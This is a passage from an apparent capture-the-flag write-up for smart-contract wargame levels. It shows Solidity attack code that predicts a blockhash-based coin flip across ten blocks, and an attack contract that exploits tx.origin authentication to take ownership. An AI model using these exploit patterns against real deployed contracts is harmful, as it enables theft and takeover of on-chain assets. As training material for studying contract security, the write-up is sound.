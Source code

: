 All we have to do, then, is performing the calculation ourselves to _guess_ the right value.

Notice that we need to move to the next block on each iteration. To that end, [we leverage the forge cheatcode](https://book.getfoundry.sh/cheatcodes/roll) `vm.roll()`.

```solidity
function attack(Vm vm) public {
  // we need to be right 10 times in order to beat the level.
  for (uint i = 0; i < 10; i++) {
    // compute our "guess" in advance.
    blockValue = uint256(blockhash(block.number - 1));
    coinFlip = blockValue / FACTOR;
    side = coinFlip == 1 ? true : false;

    // we flip and give our "guess".
    coinFlipContract.flip(side);

    // let's move to the next block.
    vm.roll(block.number + 1);
  }
}
```

#### References

* https://book.getfoundry.sh/forge/cheatcodes
* https://book.getfoundry.sh/cheatcodes/

## 04 Telephone

To beat this level, we need to comply with

```solidity
instance.owner() == _player;
```

### Solution

From the [solidity documentation](https://docs.soliditylang.org/en/v0.8.19/units-and-global-variables.html#block-and-transaction-properties)

* `msg.sender` (address): sender of the message (current call)
* `tx.origin` (address): sender of the transaction (full call chain)


We write this attack contract that does the actual call to the level

```solidity
contract TelephoneAttack {
  ITelephone internal challenge;

  constructor(address _challengeAddress) {
    challenge = ITelephone(_challengeAddress);
  }

  function attack() public {
    challenge.changeOwner(msg.sender);
  }
}
```
